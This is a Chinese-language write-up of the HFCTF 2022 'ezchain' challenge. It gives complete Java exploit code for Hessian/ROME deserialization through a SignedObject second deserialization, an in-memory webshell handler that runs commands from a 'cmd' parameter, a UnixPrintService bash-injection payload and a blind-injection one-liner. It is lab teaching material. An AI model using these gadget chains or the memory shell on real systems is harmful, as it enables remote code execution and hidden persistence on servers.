



## 关键词

hession	rome	二次反序列化	handler内存马	

## 题目浅析

首先根据dockerfile可知题目环境不出网，看一下依赖：


也就是：

```xml
<dependencies>
    <dependency>
        <groupId>com.caucho</groupId>
        <artifactId>hessian</artifactId>
        <version>4.0.38</version>
    </dependency>
    <dependency>
        <groupId>com.rometools</groupId>
        <artifactId>rome</artifactId>
        <version>1.7.0</version>
    </dependency>
    <dependency>
        <groupId>com.rometools</groupId>
        <artifactId>rome-utils</artifactId>
        <version>1.7.0</version>
    </dependency>
    <dependency>
        <groupId>org.slf4j</groupId>
        <artifactId>slf4j-api</artifactId>
        <version>1.7.16</version>
    </dependency>
</dependencies>
```

jdk为8u181

接下来看到Index文件

```java
package com.ctf.ezchain;

import com.caucho.hessian.io.Hessian2Input;
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.net.httpserver.HttpServer;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.net.InetSocketAddress;
import java.util.HashMap;
import java.util.Map;
import java.util.Objects;
import java.util.concurrent.Executors;

public class Index {
    public Index() {
    }

    public static void main(String[] args) throws Exception {
        System.out.println("server start");
        HttpServer server = HttpServer.create(new InetSocketAddress(8090), 0);
        server.createContext("/", new MyHandler());
        server.setExecutor(Executors.newCachedThreadPool());
        server.start();
    }

    static class MyHandler implements HttpHandler {
        MyHandler() {
        }

        public void handle(HttpExchange t) throws IOException {
            String query = t.getRequestURI().getQuery();
            Map<String, String> queryMap = this.queryToMap(query);
            String response = "Welcome to HFCTF 2022";
            if (queryMap != null) {
                String token = (String)queryMap.get("token");
                String secret = "HFCTF2022";
                if (Objects.hashCode(token) == secret.hashCode() && !secret.equals(token)) {
                    InputStream is = t.getRequestBody();

                    try {
                        Hessian2Input input = new Hessian2Input(is);
                        input.readObject();
                    } catch (Exception var9) {
                        response = "oops! something is wrong";
                    }
                } else {
                    response = "your token is wrong";
                }
            }

            t.sendResponseHeaders(200, (long)response.length());
            OutputStream os = t.getResponseBody();
            os.write(response.getBytes());
            os.close();
        }

        public Map<String, String> queryToMap(String query) {
            if (query == null) {
                return null;
            } else {
                Map<String, String> result = new HashMap();
                String[] var3 = query.split("&");
                int var4 = var3.length;

                for(int var5 = 0; var5 < var4; ++var5) {
                    String param = var3[var5];
                    String[] entry = param.split("=");
                    if (entry.length > 1) {
                        result.put(entry[0], entry[1]);
                    } else {
                        result.put(entry[0], "");
                    }
                }

                return result;
            }
        }
    }
}

```

首先有一个简单的hashcode绕过，简单了解一下hashCode函数能够得到一个可利用的字符串`GeCTF2022`

接下来给了一个hession反序列化入口，很明显是让我们利用rome链进行攻击，但这里有两个难点：

- 不出网，无法利用JdbcRowSetImpl进行JNDI注入
- 无法利用`TemplatesImpl`链进行攻击

这是由于在高版本jdk下的`hessian`反序列化过程中，在Hessian的一些限制下，导致被transient 修饰的字段`_tfactory`一直为null，后续调用`_tfactory.getExternalExtensionsMap()`会触发空指针错误。因此`_tfactory`需要赋值，并且是`TransformerFactoryImpl`的实例，这里无法满足条件从而无法利用。



当jdk版本较低如8u40即可利用，因为该版本的`defineTranslectClasses`函数没有对`_tfactory`的值进行判断，能够完成利用。

接下来我们就应该思考新的利用方式：

## A1.二次反序列化

### tabby寻找可利用类

二次反序列化也就是反序列化两次，可以**绕过黑名单的限制或不出网利用**

对于rome链，它最终调用某个类的所有 getter，如果存在一个类其 getter 方法会调用 java 原生反序列化，且其反序列化内容可控即可完成二次反序列化的利用。

这个预期类需要满足几个条件

- 有 readobject
- 有 getter 方法，且无参数

这里你一定会好奇为什么不需要继承Serialize接口？

在 Java 原生反序列化中，实现了 `java.io.Serializable` 接口的类才可以反序列化。同样Hessian 在获取默认序列化器时，会判断类是否实现了 Serializable 接口。

```java
protected Serializer getDefaultSerializer(Class cl) {
        if (this._defaultSerializer != null) {
            return this._defaultSerializer;
        } else if (!Serializable.class.isAssignableFrom(cl) && !this._isAllowNonSerializable) {
            throw new IllegalStateException("Serialized class " + cl.getName() + " must implement java.io.Serializable");
        } else {
            return new JavaSerializer(cl, this._loader);
        }
    }
```

不过 Hessian 还提供了一个 `_isAllowNonSerializable` 变量用来打破这种规范，可以使用 `SerializerFactory#setAllowNonSerializable` 方法将其设置为 true，从而使未实现 Serializable 接口的类也可以序列化和反序列化。

于是利用tabby进行查询

```
match path=(m1:Method)-[:CALL*..3]->(m2:Method {}) where m1.NAME =~ "get.*" and m1.PARAMETER_SIZE=0 and (m2.NAME =~ "readObject") return path
```



### java.security.SignedObject

可以找到`java.security.SignedObject`中的`getObject()`方法

```java
public Object getObject()
        throws IOException, ClassNotFoundException
    {
        // creating a stream pipe-line, from b to a
        ByteArrayInputStream b = new ByteArrayInputStream(this.content);
        ObjectInput a = new ObjectInputStream(b);
        Object obj = a.readObject();
        b.close();
        a.close();
        return obj;
    }
```

它本身是一个getter方法，其内存在原生类反序列化且反序列化内容可控

```java
public SignedObject(Serializable object, PrivateKey signingKey,
                        Signature signingEngine)
        throws IOException, InvalidKeyException, SignatureException {
            // creating a stream pipe-line, from a to b
            ByteArrayOutputStream b = new ByteArrayOutputStream();
            ObjectOutput a = new ObjectOutputStream(b);

            // write and flush the object content to byte array
            a.writeObject(object);
            a.flush();
            a.close();
            this.content = b.toByteArray();
            b.close();

            // now sign the encapsulated object
            this.sign(signingKey, signingEngine);
    }
```

显然我们可以利用该类进行二次反序列化，这里需要注意一点，为什么使用原生类反序列化可以恢复这个`trasient`修饰的变量，这是因为`TemplatesImpl`重写了`readObject`方法，手动new了一个TransformerFactoryImpl类赋值给`_tfactory`。

```java
private void  readObject(ObjectInputStream is)
      throws IOException, ClassNotFoundException
    {
        SecurityManager security = System.getSecurityManager();
        if (security != null){
            String temp = SecuritySupport.getSystemProperty(DESERIALIZE_TRANSLET);
            if (temp == null || !(temp.length()==0 || temp.equalsIgnoreCase("true"))) {
                ErrorMsg err = new ErrorMsg(ErrorMsg.DESERIALIZE_TRANSLET_ERR);
                throw new UnsupportedOperationException(err.toString());
            }
        }

        // We have to read serialized fields first.
        ObjectInputStream.GetField gf = is.readFields();
        _name = (String)gf.get("_name", null);
        _bytecodes = (byte[][])gf.get("_bytecodes", null);
        _class = (Class[])gf.get("_class", null);
        _transletIndex = gf.get("_transletIndex", -1);

        _outputProperties = (Properties)gf.get("_outputProperties", null);
        _indentNumber = gf.get("_indentNumber", 0);

        if (is.readBoolean()) {
            _uriResolver = (URIResolver) is.readObject();
        }

        _tfactory = new TransformerFactoryImpl();
    }
```

### payload尝试

接下来就是如何构造利用链了：

```java
package exp;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ObjectBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;
import java.io.*;
import java.lang.reflect.Field;
import java.security.*;
import java.util.Base64;
import java.util.HashMap;
import javax.xml.transform.Templates;

public class exp {
    //为类的属性设置值
    public static void setValue(Object target, String name, Object value) throws Exception {
        Field field = target.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(target,value);
    }
    //生成恶意的bytecodes
    public static byte[] getTemplatesImpl(String cmd) {
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("snakin");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = ctClass.makeClassInitializer();
            constructor.setBody("  Runtime.getRuntime().exec(\"" + cmd + "\");" );
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;
        } catch (Exception e) {
            e.printStackTrace();
            return new byte[]{};
        }
    }
    public static HashMap getObject() throws Exception {
        //因为在TemplatesImp类中的构造函数中，_bytecodes为二维数组
        byte[] code = getTemplatesImpl("calc");
        byte[][] bytecodes = {code};
        //创建TemplatesImpl类
        TemplatesImpl templates = new TemplatesImpl();
        setValue(templates,"_name", "aaa");
        setValue(templates, "_bytecodes", bytecodes);
        setValue(templates,"_tfactory", new TransformerFactoryImpl());
        //构造ToStringBean
        ToStringBean toStringBean=new ToStringBean(Templates.class,templates);
        ToStringBean toStringBean1=new ToStringBean(String.class,"s");
        //构造ObjectBean
        ObjectBean objectBean=new ObjectBean(ToStringBean.class,toStringBean1);
        //构造HashMap
        HashMap hashMap=new HashMap();
        hashMap.put(objectBean,"snakin");
        //反射修改字段
        Field obj=EqualsBean.class.getDeclaredField("obj");
        Field equalsBean=ObjectBean.class.getDeclaredField("equalsBean");

        obj.setAccessible(true);
        equalsBean.setAccessible(true);

        obj.set(equalsBean.get(objectBean),toStringBean);

        return  hashMap;
    }

    public static void main(String[] args) throws Exception {
        HashMap evilhashMap=getObject();

        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");

        SignedObject signedObject = new SignedObject(evilhashMap,privateKey,signingEngine);

        ToStringBean toStringBean=new ToStringBean(SignedObject.class,signedObject);
        ToStringBean toStringBean1=new ToStringBean(String.class,"s");

        ObjectBean objectBean=new ObjectBean(ToStringBean.class,toStringBean1);

        HashMap hashMap=new HashMap();
        hashMap.put(objectBean,"snakin");

        Field obj= EqualsBean.class.getDeclaredField("obj");
        Field equalsBean=ObjectBean.class.getDeclaredField("equalsBean");

        obj.setAccessible(true);
        equalsBean.setAccessible(true);

        obj.set(equalsBean.get(objectBean),toStringBean);

        ByteArrayOutputStream byteArrayOutputStream = new ByteArrayOutputStream();
        Hessian2Output hessian2Output = new Hessian2Output(byteArrayOutputStream);
        hessian2Output.writeObject(hashMap);
        hessian2Output.flushBuffer();

        ByteArrayInputStream byteArrayInputStream = new ByteArrayInputStream(bytes);
        Hessian2Input hessian2Input = new Hessian2Input(byteArrayInputStream);
        hessian2Input.readObject();


    }

}
```

具体步骤注释中写了，此时我们已经可以利用`TemplatesImpl`加载字节码，接下来的问题是如何解决不出网

### 内存马

显然，为了获得回显，我们需要尝试构造内存马，正常基于tomcat和spring的内存马都是通过上下文来获取request对象，本题目直接使用http handler搭建服务，我们该如何实现动态注册呢？

> 按照经验来讲Web中间件是多线程的应用，一般requst对象都会存储在线程对象中，可以通过`Thread.currentThread()`或`Thread.getThreads()`获取。



```
Thread.currentThread()-->group-->threads[1]-->target-->this$0-->contexts-->list[0]-->handler
```

接下来就是构造内存马,我们新建一个路由

```java
import com.sun.net.httpserver.HttpExchange;
import com.sun.net.httpserver.HttpHandler;
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

import java.io.ByteArrayOutputStream;
import java.io.IOException;
import java.io.InputStream;
import java.io.OutputStream;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class memoryshell extends AbstractTranslet implements HttpHandler {
    static {
        //获取当前线程
        Object o = Thread.currentThread();
        try {
            Field groupField = o.getClass().getDeclaredField("group");
            groupField.setAccessible(true);
            Object group = groupField.get(o);

            Field threadsField = group.getClass().getDeclaredField("threads");
            threadsField.setAccessible(true);
            Object t = threadsField.get(group);

            Thread[] threads = (Thread[]) t;
            for (Thread thread : threads){
                if(thread.getName().equals("Thread-2")){
                    Field targetField = thread.getClass().getDeclaredField("target");
                    targetField.setAccessible(true);
                    Object target = targetField.get(thread);

                    Field thisField = target.getClass().getDeclaredField("this$0");
                    thisField.setAccessible(true);
                    Object this$0 = thisField.get(target);

                    Method createContext = Class.forName("sun.net.httpserver.ServerImpl").getDeclaredMethod("createContext", String.class, HttpHandler.class);
                    createContext.setAccessible(true);
                    createContext.invoke(this$0,"/shell",new memoryshell());
                    
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public void handle(HttpExchange t) throws IOException {
        String response = "MemoryShell";
        String query = t.getRequestURI().getQuery();
        String[] var3 = query.split("=");
        ByteArrayOutputStream output = null;
        if (var3[0].equals("cmd")){
            InputStream inputStream = Runtime.getRuntime().exec(var3[1]).getInputStream();
            output = new ByteArrayOutputStream();
            byte[] buffer = new byte[4096];
            int n = 0;
            while (-1 != (n = inputStream.read(buffer))) {
                output.write(buffer, 0, n);
            }
        }
        response+=("\n"+new String(output.toByteArray()));
        t.sendResponseHeaders(200, (long)response.length());
        OutputStream os = t.getResponseBody();
        os.write(response.getBytes());
        os.close();
    }
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

}
```

之后生成payload

```java
package exp;

import com.caucho.hessian.io.Hessian2Input;
import com.caucho.hessian.io.Hessian2Output;
import com.rometools.rome.feed.impl.EqualsBean;
import com.rometools.rome.feed.impl.ObjectBean;
import com.rometools.rome.feed.impl.ToStringBean;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import java.io.*;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.security.*;
import java.util.Base64;
import java.util.HashMap;
import javax.xml.transform.Templates;

public class exp {
    //为类的属性设置值
    public static void setValue(Object target, String name, Object value) throws Exception {
        Field field = target.getClass().getDeclaredField(name);
        field.setAccessible(true);
        field.set(target,value);
    }
    public static HashMap getObject() throws Exception {
        TemplatesImpl templates = new TemplatesImpl();

        byte[] bytecodes = Files.readAllBytes(Paths.get("target/classes/memoryshell.class"));
        setValue(templates,"_name", "aaa");
        setValue(templates, "_bytecodes", new byte[][] {bytecodes});
        setValue(templates,"_tfactory", new TransformerFactoryImpl());
        //构造ToStringBean
        ToStringBean toStringBean=new ToStringBean(Templates.class,templates);
        ToStringBean toStringBean1=new ToStringBean(String.class,"s");
        //构造ObjectBean
        ObjectBean objectBean=new ObjectBean(ToStringBean.class,toStringBean1);
        //构造HashMap
        HashMap hashMap=new HashMap();
        hashMap.put(objectBean,"snakin");
        //反射修改字段
        Field obj=EqualsBean.class.getDeclaredField("obj");
        Field equalsBean=ObjectBean.class.getDeclaredField("equalsBean");

        obj.setAccessible(true);
        equalsBean.setAccessible(true);

        obj.set(equalsBean.get(objectBean),toStringBean);

        return  hashMap;
    }

    public static void main(String[] args) throws Exception {
        HashMap evilhashMap=getObject();

        KeyPairGenerator keyPairGenerator;
        keyPairGenerator = KeyPairGenerator.getInstance("DSA");
        keyPairGenerator.initialize(1024);
        KeyPair keyPair = keyPairGenerator.genKeyPair();
        PrivateKey privateKey = keyPair.getPrivate();
        Signature signingEngine = Signature.getInstance("DSA");

        SignedObject signedObject = new SignedObject(evilhashMap,privateKey,signingEngine);

        ToStringBean toStringBean=new ToStringBean(SignedObject.class,signedObject);
        ToStringBean toStringBean1=new ToStringBean(String.class,"s");

        ObjectBean objectBean=new ObjectBean(ToStringBean.class,toStringBean1);

        HashMap hashMap=new HashMap();
        hashMap.put(objectBean,"snakin");

        Field obj= EqualsBean.class.getDeclaredField("obj");
        Field equalsBean=ObjectBean.class.getDeclaredField("equalsBean");

        obj.setAccessible(true);
        equalsBean.setAccessible(true);

        obj.set(equalsBean.get(objectBean),toStringBean);

        Hessian2Output hessianOutput1 = new Hessian2Output(new FileOutputStream("./hession.ser"));
        hessianOutput1.writeObject(hashMap);
        hessianOutput1.close();


    }

}
```

使用python注入内存马获取flag

```python
import requests
 
url = "http://fc468662-a072-4ff6-af4c-aa53ea6a8273.node4.buuoj.cn:81/?token=GeCTF2022"
 
with open("hession.ser", "rb") as f:
    content = f.read()
 
requests.post(url=url, data=content)
 
url = "http://fc468662-a072-4ff6-af4c-aa53ea6a8273.node4.buuoj.cn:81/shell?cmd=cat /flag"
text = requests.get(url).text
print(text)
```

当然我们也可以直接覆盖原来的handler

```java
static {
        //获取当前线程
        Object o = Thread.currentThread();
        try {
            Field groupField = o.getClass().getDeclaredField("group");
            groupField.setAccessible(true);
            Object group = groupField.get(o);

            Field threadsField = group.getClass().getDeclaredField("threads");
            threadsField.setAccessible(true);
            Object t = threadsField.get(group);

            Thread[] threads = (Thread[]) t;
            for (Thread thread : threads){
                if(thread.getName().equals("Thread-2")){
                    Field targetField = thread.getClass().getDeclaredField("target");
                    targetField.setAccessible(true);
                    Object target = targetField.get(thread);

                    Field thisField = target.getClass().getDeclaredField("this$0");
                    thisField.setAccessible(true);
                    Object this$0 = thisField.get(target);

                    Field contextsField = this$0.getClass().getDeclaredField("contexts");
                    contextsField.setAccessible(true);
                    Object contexts = contextsField.get(this$0);

                    Field listField = contexts.getClass().getDeclaredField("list");
                    listField.setAccessible(true);
                    Object lists = listField.get(contexts);
                    java.util.LinkedList linkedList = (java.util.LinkedList) lists;

                    Object list = linkedList.get(0);

                    Field handlerField = list.getClass().getDeclaredField("handler");
                    handlerField.setAccessible(true);
                    handlerField.set(list,new InjectHandle());
                }
            }
        } catch (Exception e) {
            e.printStackTrace();
        }
```


## A.2 UnixPrintService

利用链

```
<sun.print.UnixPrintServiceLookup: javax.print.PrintService getDefaultPrintService()>
<sun.print.UnixPrintServiceLookup: java.lang.String getDefaultPrinterNameBSD()>
<sun.print.UnixPrintServiceLookup: java.lang.String[] execCmd(java.lang.String)>
<sun.print.UnixPrintServiceLookup$1: java.lang.Object run()>
<java.lang.Runtime: java.lang.Process exec(java.lang.String[])>
```

payload

```java
public class Main {
    public static void main(String[] args) throws Exception{
        System.out.println("HFCTF2022".hashCode());
        s = ":Y1\"nOJF-6A'>|r-";
        System.out.println(s.hashCode());

        String cmd = args[0];
        String path = args[1];

        FileOutputStream outputStream = new FileOutputStream(path);
        Hessian2Output out = new Hessian2Output(outputStream);
        SerializerFactory sf = new NoWriteReplaceSerializerFactory();
        sf.setAllowNonSerializable(true);
        out.setSerializerFactory(sf);

        Field theUnsafe = Unsafe.class.getDeclaredField("theUnsafe");
        theUnsafe.setAccessible(true);
        Unsafe unsafe = (Unsafe) theUnsafe.get(null);
        Object unix = unsafe.allocateInstance(UnixPrintService.class);
        setFieldValue(unix, "printer", String.format(";bash -c '%s';", cmd));
        setFieldValue(unix, "lpcStatusCom", new String[]{"ls", "ls", "ls"});
        ToStringBean toStringBean = new ToStringBean(Class.forName("sun.print.UnixPrintService"), unix);
        EqualsBean hashCodeTrigger = new EqualsBean(ToStringBean.class, toStringBean);

        out.writeMapBegin("java.util.HashMap");
        out.writeObject(hashCodeTrigger);
        out.writeObject("value");
        out.writeMapEnd();
        out.close();
    }

    public static void setFieldValue(Object obj, String field, Object value){
        try{
            Class clazz = obj.getClass();
            Field fld = clazz.getDeclaredField(field);
            fld.setAccessible(true);
            fld.set(obj, value);
        }catch (Exception e){
            e.printStackTrace();
        }
    }


    public static class NoWriteReplaceSerializerFactory extends SerializerFactory {

        /**
         * {@inheritDoc}
         *
         * @see com.caucho.hessian.io.SerializerFactory#getObjectSerializer(java.lang.Class)
         */
        @Override
        public Serializer getObjectSerializer (Class<?> cl ) throws HessianProtocolException {
            return super.getObjectSerializer(cl);
        }


        /**
         * {@inheritDoc}
         *
         * @see com.caucho.hessian.io.SerializerFactory#getSerializer(java.lang.Class)
         */
        @Override
        public Serializer getSerializer ( Class cl ) throws HessianProtocolException {
            Serializer serializer = super.getSerializer(cl);

            if ( serializer instanceof WriteReplaceSerializer) {
                return UnsafeSerializer.create(cl);
            }
            return serializer;
        }
    }
}
```

之后可以通过命令盲注或者javaagent内存马获取flag

```
if [ `cut -c {1} flag` = "{a}" ];then sleep 2;fi
```


参考：

https://y4tacker.github.io/2022/03/21/year/2022/3/2022%E8%99%8E%E7%AC%A6CTF-Java%E9%83%A8%E5%88%86/#%E5%88%A9%E7%94%A8%E4%BA%8C%EF%BC%9AUnixPrintService%E7%9B%B4%E6%8E%A5%E6%89%A7%E8%A1%8C%E5%91%BD%E4%BB%A4

https://xz.aliyun.com/t/11061

http://miku233.viewofthai.link/2022/05/29/%E8%99%8E%E7%AC%A6CTF/

http://www.bmth666.cn/bmth_blog/2022/09/20/java%E4%BA%8C%E6%AC%A1%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%9D%E6%8E%A2/#2022%E8%99%8E%E7%AC%A6-ezchain-Hessian2%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96

https://tttang.com/archive/1510/#toc_0x01-ezchain-hfctf2022


